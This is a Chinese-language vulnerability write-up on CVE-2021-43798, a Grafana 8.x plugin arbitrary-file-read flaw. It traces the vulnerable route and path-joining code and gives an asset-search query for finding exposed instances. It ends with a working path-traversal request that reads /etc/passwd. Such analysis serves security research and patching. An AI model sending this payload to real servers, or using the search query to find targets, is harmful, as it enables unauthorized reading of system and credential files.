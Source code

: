 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

<a-checkbox checked>Grafana 8.x</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Grafana_Labs-公司产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1638885570573-25d2b257-36c8-43a7-bf8f-f552193f6649.png)

下载源码进行本地分析

```php
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![img](/assets/PeiQi-Wiki/img/1638885654432-3d019c1a-81fd-429d-9667-6c1e829b694e.png)

```php
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![img](/assets/PeiQi-Wiki/img/1638885718491-08933f1d-ee0f-4eaa-b5d7-859c4889d2b7.png)

从请求路径中获取 `/public/plugins/` 后的参数赋值给 `pluginID,` 然后再被拼接至 `pluginFilePath` 进入文件读取片段

```go
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![img](/assets/PeiQi-Wiki/img/1638886241407-a47b7e8e-47fb-4481-8719-c532b51a5fa0.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```go
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 `public/app/plugins/panel`

![img](/assets/PeiQi-Wiki/img/1638886549610-16b0f045-996a-4e0d-86db-4b6c83a3a989.png)

构造请求

```go
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1638886726559-aa047e67-0bca-4b8c-bb07-4a9af6226e6e.png)